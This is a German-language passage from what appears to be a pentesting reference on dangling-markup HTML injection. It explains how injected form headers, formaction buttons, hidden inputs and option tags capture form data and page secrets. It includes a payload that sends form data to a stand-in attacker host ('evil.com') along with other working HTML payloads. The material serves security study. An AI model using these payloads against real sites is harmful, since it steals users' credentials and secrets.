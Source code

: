 ### Stealing forms 2

Setzen Sie einen Formular-Header: `<form action='http://evil.com/log_steal'>`, dies wird den nächsten Formular-Header überschreiben und alle Daten aus dem Formular werden an den Angreifer gesendet.

### Stealing forms 3

Der Button kann die URL ändern, an die die Informationen des Formulars mit dem Attribut "formaction" gesendet werden:
```html
<button name="xss" type="submit" formaction="https://google.com">
I get consumed!
</button>
```
Ein Angreifer kann dies verwenden, um Informationen zu stehlen.

Finden Sie ein [**Beispiel für diesen Angriff in diesem Bericht**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp).

### Stehlen von Klartext-Geheimnissen 2

Mit der zuletzt erwähnten Technik zum Stehlen von Formularen (Einfügen eines neuen Formular-Headers) können Sie dann ein neues Eingabefeld einfügen:
```html
<input type='hidden' name='review_body' value="
```
und dieses Eingabefeld wird den gesamten Inhalt zwischen seinen doppelten Anführungszeichen und dem nächsten doppelten Anführungszeichen im HTML enthalten. Dieser Angriff kombiniert "_**Stealing clear text secrets**_" mit "_**Stealing forms2**_".

Sie können dasselbe tun, indem Sie ein Formular und ein `<option>`-Tag injizieren. Alle Daten bis ein geschlossenes `</option>` gefunden wird, werden gesendet:
```html
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```
### Formparameter-Injektion

Sie können den Pfad eines Formulars ändern und neue Werte einfügen, sodass eine unerwartete Aktion ausgeführt wird:
```html
<form action="/change_settings.php">
<input type="hidden" name="invite_user" value="fredmbogo" /> ← Injected lines

<form action="/change_settings.php">
← Existing form (ignored by the parser) ...
<input type="text" name="invite_user" value="" /> ← Subverted field ...
<input type="hidden" name="xsrf_token" value="12345" />
...
</form>
</form>
```
### Stehlen von Klartextgeheimnissen über noscript
